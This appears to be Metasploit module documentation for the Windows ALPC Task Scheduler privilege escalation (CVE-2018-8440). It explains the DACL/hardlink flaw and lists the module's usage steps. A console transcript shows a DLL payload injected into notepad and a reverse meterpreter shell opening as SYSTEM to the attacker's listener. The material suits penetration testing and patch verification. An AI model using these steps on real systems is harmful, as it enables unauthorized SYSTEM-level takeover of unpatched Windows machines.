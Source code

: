## Description

On vulnerable versions of Windows the alpc endpoint method SchRpcSetSecurity implemented by the task scheduler service can be used to write arbitrary DACLs to `.job` files located in `c:\windows\tasks` since the scheduler does not use impersonation when checking this location. Since users can create files in the `c:\windows\tasks` folder, a hardlink can be created to a file the user has read access to. After creating a hardlink, the vulnerability can be triggered to set the DACL on the linked file. This module has been tested against Windows 10 Pro x64.

## Vulnerable Application

Windows OSes without [KB4457142 patch](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440)

## Verification Steps

* Get a meterpreter session on Windows 10 x64
* `use exploit/windows/local/alpc_taskscheduler`
* `set session <session>`
* `set payload <payload>`
* `set lhost <lhost>`
* `run`
* Get a session as SYSTEM

## Scenarios

### Tested on Windows 10 Pro Version 1803 x64

```
msf5 exploit(windows/local/alpc_taskscheduler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x64/windows  DESKTOP-IPOGIJR\msfdev @ DESKTOP-IPOGIJR  172.22.222.243:4444 -> 172.22.222.200:50490 (172.22.222.200)

msf5 exploit(windows/local/alpc_taskscheduler) > run

[*] Started reverse TCP handler on 172.22.222.243:4444 
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-IPOGIJR via session ID: 1
[*] Payload (5120 bytes) uploaded on DESKTOP-IPOGIJR to C:\Users\msfdev\AppData\Local\Temp\lbNjsaazXMT.dll
[*] Target Looks Good... trying to start notepad
[*] Launching notepad to host the exploit...
[+] Process 3768 launched.
[*] Attempting to change the payload path to C:\Users\msfdev\AppData\Local\Temp\lbNjsaazXMT.dll...
[*] Reflectively injecting the exploit DLL into 3768...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 172.22.222.200
[*] Meterpreter session 2 opened (172.22.222.243:4444 -> 172.22.222.200:50491) at 2018-09-17 17:37:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
